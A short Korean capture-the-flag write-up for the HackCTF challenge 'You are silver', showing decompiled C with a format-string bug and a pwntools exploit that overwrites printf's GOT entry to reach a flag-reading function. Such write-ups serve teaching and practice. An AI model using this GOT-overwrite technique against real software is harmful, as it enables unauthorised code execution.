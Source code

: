 ```yaml
---
title: "[HackCTF]You are silver"
date: 2020-1-27
ctf: HackCTF
layout: post
published : false
---
```


main에서 fsb일어난다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-30h]
  int v5; // [rsp+28h] [rbp-8h]
  int v6; // [rsp+2Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v6 = 50;
  puts("Please enter your name");
  fgets(&s, 46, stdin);
  printf(&s, 46LL);
  v5 = get_tier(v6);
  printf(v5);
  return 0;
}
```



printf(v5) -> play_game(4); 이런식으로 바꿔주면 play_game 함수 내부에서  `system("cat ./flag");`  할 수 있다.

stack offset 6번째부터 입력받으니까 %8$ln해주고 8번째 오프셋에는 printf@got로 해놓으면 앞에서 출력된만큼 스택 8번째인 printf@got를 덮을 수 있다.

stack offset 6 : %6295592 

stack offset 7 : c%8$ln + '\x00\x00'

stack offset 8 : printf@got

> exploit.py

```python
from pwn import *

e = ELF('./you_are_silver')
#p = process('./you_are_silver')
p = remote('ctf.j0n9hyun.xyz',3022)
play_game = 0x4006d7
printf_got = 0x601028

offset = 6

# printf@got -> play_game
payload = '%{}c'.format(play_game)
payload += '%8$ln'
payload += '\x00' * (8-len(payload)%8)
payload += p64(e.got['printf']) # 8
payload = payload.ljust(46,'Z')

p.sendlineafter('name\n',payload)

p.interactive()
```